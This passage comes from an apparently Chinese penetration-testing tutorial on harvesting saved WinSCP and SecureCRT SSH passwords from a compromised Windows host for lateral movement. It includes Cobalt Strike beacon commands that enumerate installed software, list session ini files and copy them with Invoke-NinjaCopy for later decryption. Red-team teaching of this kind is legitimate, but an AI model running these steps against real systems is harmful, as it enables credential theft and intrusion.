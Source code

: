 
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205104512.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
将查到的信息拷贝到本地的winscppwd.exe进行解密-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205120209.png%23pic_center)-
2.RDP直接登录目标，导出Winscp配置文件，并下载到本地进行解密-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205134108.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205140440.png%23pic_center)

##### SecureCRT

**前言**

SecureCRT是运维人员常用的管理工具。但由于某些运维人员的安全意识不高，平时很可能会把SSH的连接密码都保存在里面，这就给了渗透人员可乘之机，为后续跨平台横向移动做了准备。而我们的主要目的是为了解密保存在SecureCRT中的这些SHH连接密码，并通过这种方式实现Windows到Linux之间的快速横向渗透。

所有操作全部在管理员权限下进行，解密脚本仅限于 SecureCRT 7.x 以下版本，高版本需要使用结尾处的方法。如果SecureCRT有启动密码，Config加密了，就不要搞了![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205233293.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**确定目标SecureCRT的详细版本**

想办法确定SecureCRT的详细版本，通过powershell脚本搞定，或者直接RDP登录连接查询等 「绿色版无安装记录」。发现目标所用的详细版本为 7.1.1（build 264）

    beacon> powershell-import /Users/anonysec/ListInstalledPrograms.ps1
    
    beacon> powershell Get-list
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205320907.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205333908.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**确定SecureCRT配置文件目录下的Sessions目录**

默认情况下，SecureCRT的Config目录路径为：%APPDATA%\\VanDyke\\Config\\Sessions\\

如果无法确定路径，可以通过图形界面在SecureCRT菜单的全局选项中来确认-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201001205358802.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
Sessions目录下的每个ini文件都会以连接的IP或域名来命名

    beacon>shell dir %APPDATA%\VanDyke\Config\Sessions\
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100120542420.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**拷贝下载Sessions目录的ini文件**

直接到Sessions目录下载ini文件可能会有问题（应该程序占用），即使下载下来，到本地可能无法解密。所以，先用Invoke-NinjaCopy.ps1脚本把ini文件先copy到其他目录，然后再去下载。

    beacon> powershell-import /Users/anonysec/Invoke-NinjaCopy.ps1
    
    beacon> powershell Invoke-NinjaCopy -Path "C:\Users\r00t\AppData\Roaming\VanDyke\Config\Sessions\192.168.144.128.ini" -LocalDestination "c:\windows\temp\192.168.144.128.ini"
    
    beacon> shell dir c:\windows\temp\192.168.144.128.ini 
    